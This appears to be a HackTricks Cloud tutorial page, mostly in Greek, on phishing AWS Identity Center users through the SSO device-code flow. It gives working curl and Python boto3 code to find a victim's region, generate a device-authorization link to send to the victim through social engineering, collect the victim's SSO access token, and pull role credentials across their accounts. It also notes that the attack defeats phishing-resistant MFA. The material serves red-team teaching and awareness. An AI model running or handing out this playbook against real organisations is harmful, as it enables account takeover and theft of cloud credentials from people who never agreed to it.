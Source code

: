 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Device Code Phishing

Αρχικά προτάθηκε σε [**αυτή την ανάρτηση στο blog**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), είναι δυνατόν να σταλεί ένα **link** σε έναν χρήστη που χρησιμοποιεί AWS SSO, το οποίο αν **αποδεχθεί** ο χρήστης, ο επιτιθέμενος θα μπορέσει να αποκτήσει ένα **token για να προσποιηθεί τον χρήστη** και να έχει πρόσβαση σε όλους τους ρόλους που μπορεί να έχει πρόσβαση ο χρήστης στο **Identity Center**.

Για να εκτελεστεί αυτή η επίθεση, οι προϋποθέσεις είναι:

* Το θύμα πρέπει να χρησιμοποιεί το **Identity Center**
* Ο επιτιθέμενος πρέπει να γνωρίζει το **subdomain** που χρησιμοποιεί το θύμα `<victimsub>.awsapps.com/start`

Μόνο με τις προηγούμενες πληροφορίες, ο **επιτιθέμενος θα μπορέσει να στείλει ένα link στον χρήστη** που αν **αποδεχθεί** θα παραχωρήσει στον **επιτιθέμενο πρόσβαση στον λογαριασμό AWS** του χρήστη.

### Attack

1. **Finding the subdomain**

Το πρώτο βήμα του επιτιθέμενου είναι να ανακαλύψει το subdomain που χρησιμοποιεί η εταιρεία του θύματος στο Identity Center τους. Αυτό μπορεί να γίνει μέσω **OSINT** ή **μαντεψιάς + BF**, καθώς οι περισσότερες εταιρείες θα χρησιμοποιούν το όνομά τους ή μια παραλλαγή του ονόματός τους εδώ.

Με αυτές τις πληροφορίες, είναι δυνατόν να αποκτηθεί η περιοχή όπου έχει ρυθμιστεί το Identity Center:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Δημιουργήστε τον σύνδεσμο για το θύμα & Στείλτε τον**

Run the following code to generate an AWS SSO login link so the victim can authenticate.\
Για την επίδειξη, εκτελέστε αυτόν τον κώδικα σε μια κονσόλα python και μην βγείτε από αυτήν καθώς αργότερα θα χρειαστείτε κάποια αντικείμενα για να αποκτήσετε το token:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Στείλτε τον παραγόμενο σύνδεσμο στο θύμα χρησιμοποιώντας τις καταπληκτικές σας ικανότητες κοινωνικής μηχανικής!

3. **Περιμένετε μέχρι το θύμα να το αποδεχτεί**

Αν το θύμα ήταν **ήδη συνδεδεμένο στο AWS**, θα χρειαστεί απλώς να αποδεχτεί την παροχή των δικαιωμάτων, αν δεν ήταν, θα χρειαστεί να **συνδεθεί και στη συνέχεια να αποδεχτεί την παροχή των δικαιωμάτων**.\
Αυτή είναι η εμφάνιση του προτροπής σήμερα:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Αποκτήστε το SSO access token**

Αν το θύμα αποδέχτηκε την προτροπή, εκτελέστε αυτόν τον κώδικα για να **δημιουργήσετε ένα SSO token προσποιούμενοι τον χρήστη**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Το διακριτικό πρόσβασης SSO είναι **έγκυρο για 8 ώρες**.

5. **Προσωποποιήστε τον χρήστη**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

Είναι διασκεδαστικό να γνωρίζουμε ότι η προηγούμενη επίθεση **λειτουργεί ακόμη και αν χρησιμοποιείται ένα "unphisable MFA" (webAuth)**. Αυτό συμβαίνει επειδή η προηγούμενη **ροή εργασίας δεν αφήνει το χρησιμοποιούμενο OAuth domain**. Όχι όπως σε άλλες επιθέσεις phishing όπου ο χρήστης πρέπει να υποκαταστήσει το domain σύνδεσης, στην περίπτωση που η ροή εργασίας κωδικού συσκευής είναι προετοιμασμένη έτσι ώστε ένα **κωδικός να είναι γνωστός από μια συσκευή** και ο χρήστης μπορεί να συνδεθεί ακόμη και σε διαφορετική μηχανή. Εάν γίνει αποδεκτή η προτροπή, η συσκευή, απλά γνωρίζοντας τον **αρχικό κωδικό**, θα είναι σε θέση να **ανακτήσει διαπιστευτήρια** για τον χρήστη.

Για περισσότερες πληροφορίες σχετικά με αυτό [**δείτε αυτή την ανάρτηση**](https://mjg59.dreamwidth.org/62175.html).

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
